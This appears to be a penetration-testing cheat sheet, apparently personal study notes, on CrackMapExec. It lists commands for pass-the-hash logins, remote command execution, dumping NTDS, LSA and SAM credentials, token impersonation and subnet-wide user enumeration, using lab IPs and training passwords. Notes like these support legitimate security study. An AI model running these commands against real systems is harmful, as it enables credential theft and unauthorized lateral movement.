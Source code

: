 Related articles: 
Tags: #Tools 

---

CrackMapExec is a post-foothold tool used for lateral movement and privilege escalation. It can be used to dump the LSA, SAM, PTH.

Using NTLM hash to authenticate and list shares
``` bash
crackmapexec smb 192.168.1.100 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 --shares
```

  Same hash to execute commands
``` bash
crackmapexec smb 192.168.1.100 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -x whoami
``` 

Capturing the NTDS
```bash
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

Dumping LSA Secrets Remotely
```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

Dumping SAM Remotely:
```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

 Using the tokens module 
```bash
crackmapexec smb 192.168.1.100 -u Administrator -p 'Password123' -M tokens
```

```bash
crackmapexec smb 192.168.1.100 -u Administrator -p 'Password123' --impersonate-user domain\targetuser
``` 

SMBEXEC:
```bash

crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec

```

#### Enumerating Logged-on Users

Imagine we are in a network with multiple machines. Some of them share the same local administrator account. In this case, we could use `CrackMapExec` to enumerate logged-on users on all machines within the same network `10.10.110.17/24`, which speeds up our enumeration process.

  Attacking SMB
```bash
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```
#### Pass-the-Hash (PtH)

If we manage to get an NTLM hash of a user, and if we cannot crack it, we can still use the hash to authenticate over SMB with a technique called Pass-the-Hash (PtH). PtH allows an attacker to authenticate to a remote server or service using the underlying NTLM hash of a user's password instead of the plaintext password. We can use a PtH attack with any `Impacket` tool, `SMBMap`, `CrackMapExec`, among other tools. Here is an example of how this would work with `CrackMapExec`:

  Attacking SMB

```bash
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

Use --continue-on-success to continue after finding a good combo cred.
